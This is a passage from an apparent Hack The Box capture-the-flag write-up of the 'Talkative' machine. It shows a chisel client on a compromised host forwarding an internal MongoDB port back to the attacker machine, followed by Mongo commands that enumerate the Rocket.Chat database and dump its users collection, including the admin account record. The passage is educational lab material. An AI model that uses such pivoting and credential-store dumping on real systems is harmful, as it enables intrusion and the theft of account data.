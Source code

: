 - **Client connects to the server, and forward `172.17.0.2`'s port `27017` to our attacker machine's port `27017`:**

```shell
saul@talkative:~$ /tmp/chisel client 10.10.14.6:8888 R:27017:172.17.0.2:27017
2023/08/12 09:18:14 client: Connecting to ws://10.10.14.6:8888
2023/08/12 09:18:14 client: Connected (Latency 37.946207ms)
```

Now we can use MongoDB's client `mongo` to communicate with the Docker container's MongoDB server!

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Talkative)-[2023.08.12|17:23:33(HKT)]
└> mongo 127.0.0.1
[...]
rs0:PRIMARY> show dbs
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.005GB
```

In here, we found a **non-default database: `meteor`**.

**Let's enumerate it's collections (tables)!**
```shell
rs0:PRIMARY> use meteor
switched to db meteor
rs0:PRIMARY> show collections
[...]
rocketchat_user_data_files
rocketchat_webdav_accounts
system.views
ufsTokens
users
usersSessions
view_livechat_queue_status
```

Hmm... It seems like **this database is for the Rocket Chat application on TCP port 3000**...

Now, I wonder what's the `admin` user on Rocket Chat, **like can I read its conversation between different people**??

But how?

**In the `meteor` database, there's a `users` collection:**
```shell
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "{Redacted}" }, "email" : { "verificationTokens" : [ { "token" : "{Redacted}", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2023-08-12T07:21:45.569Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
```